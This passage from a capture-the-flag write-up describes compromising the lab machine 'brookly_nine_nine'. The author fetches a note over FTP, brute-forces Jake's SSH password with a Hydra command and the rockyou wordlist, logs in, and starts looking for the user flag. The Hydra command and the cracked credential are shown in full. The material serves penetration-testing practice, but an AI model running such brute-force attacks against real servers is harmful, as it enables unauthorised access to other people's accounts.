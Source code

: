 We have a file: **note_to_jake.txt**, moved it to my PC with the following command:
	
```
ftp> get note_to_jake.txt
```

I exited FTP, and looked at the text file contents:
	
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

### Password Cracking with Hydra:

This message indicates that Jake's account has a weak password, and therefore, we should be able to crack it with a password cracker.

Given this information, I set up Hydra to attempt to crack Jake's password (assuming SSH?), and using the rockyou.txt wordlist:
	
```
hydra -t 64 -l jake -P rockyou.txt {MACHINE_IP} ssh
```

...and in less than 20 seconds, we have Jake's password:
	
```
[22][ssh] host: {MACHINE_IP}   login: jake   password: 987654321
```

Now that we have Jake's username and password, we can login to SSH through his credentials.

```shell
ssh jake@{MACHINE_IP}
jake@{MACHINE_IP}'s password: 
jake@brookly_nine_nine:~$ 
```

I am in!

### Finding the User Flag:

I explored around the terminal a little bit. There was nothing in the current directory, so I explored the other directories.
	
```shell
jake@brookly_nine_nine:~$ cd ..
jake@brookly_nine_nine:/home$ ls
amy  holt  jake
jake@brookly_nine_nine:/home$ cd holt
jake@brookly_nine_nine:/home/holt$ ls
nano.save  user.txt
jake@brookly_nine_nine:/home/holt$ 

```
